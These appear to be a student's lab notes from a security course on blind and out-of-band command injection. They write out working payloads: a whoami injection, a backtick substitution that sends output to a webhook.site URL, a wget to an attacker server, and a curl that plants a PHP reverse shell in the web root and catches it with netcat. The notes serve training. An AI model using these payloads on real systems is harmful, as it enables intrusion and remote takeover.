 ## Command Injection - Blind / Out-of-Band
### Normal App Functionality
- Access the second lab
- Also a network check
- Enter `https://tcm-sec.com/` and it does not display the curl command nor the response code. It does show the target name and 'Website OK'.

  ![image](https://github.com/user-attachments/assets/77e9cc8a-beeb-4239-a060-57182b9f19c4)
- Unsucessful connection returns `Website not found' or 'Something went wrong'

### Try Payloads for Different Behavior
- Enter `https://tcm-sec.com; whoami #` returns 'Website OK' and the target as `https://tcm-sec.com whoami `
- It is likely filtering out `;` and `#`
- Since it only returns 'yes' or 'no', it is blind

### Out-of-Band Technique
- Get a `webhook.site` URL
- Enter ``https://webhook.site/b9b4e186-1f27-4dac-b4f2-911eac7325c1?`whoami` `` and webhook receies the executed command
  
  ![image](https://github.com/user-attachments/assets/853c71ca-c0d1-4d36-97ad-f734cd35d0fb)
- This is out-of-band because we have to catch it from a different place
- Set up python server `python3 -m http.server 4242`
- Enter `https://tcm-sec.com \n wget 10.0.2.15:4242/test` and we catch the response with netcat

### Reverse Shell
- Host reverse shell on python server
- Enter `https://tcm-sec.com && curl 10.0.2.15:4242/php-reverse-shell.php > /var/www/html/php-reverse-shell.php`
- Set up netcat listener `nc -lvnp 4444`
- Navigate to `localhost/php-reverse-shell.php` to execute it
- The browser hangs as it was caught by netcat!

  ![image](https://github.com/user-attachments/assets/f3f05c23-c34b-4798-bb17-6126538fa3a2)
